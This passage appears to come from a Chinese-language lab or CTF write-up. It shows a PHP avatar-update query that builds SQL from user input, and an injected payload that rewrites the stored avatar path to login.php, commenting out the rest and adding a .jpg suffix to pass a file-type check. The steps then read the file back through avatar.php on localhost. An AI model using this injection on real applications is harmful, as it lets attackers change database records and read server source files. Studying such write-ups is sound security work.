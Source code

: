 ```sql
UPDATE users SET user_avatar = '$avatar' WHERE user_id = '{$_SESSION['user_id']}'
UPDATE users SET user_avatar ='1.png',user_avatar='login.php' WHERE user_name='111' -- .jpg' WHERE user_id = '{$_SESSION['user_id']}'
#前面的1.png用于闭合单引号，再写一个user_avatar='login.php'用于覆盖前面的1.png，最后的-- 用于注释后面的语句，由于is_pic()要检查文件后缀，所以最后要带上.jpg
```

构造poayload发送

​![image](assets/image-20240928115809-srvjxcb.png)​

头像路径已被更改。

​![image](assets/image-20240928120111-nhkj6u7.png)​

<span data-type="text" style="color: var(--b3-font-color10);">重新登录</span>刷新后访问http://localhost/user/avatar.php，抓包查看。

​![image](assets/image-20240928115853-buowfge.png)​

‍
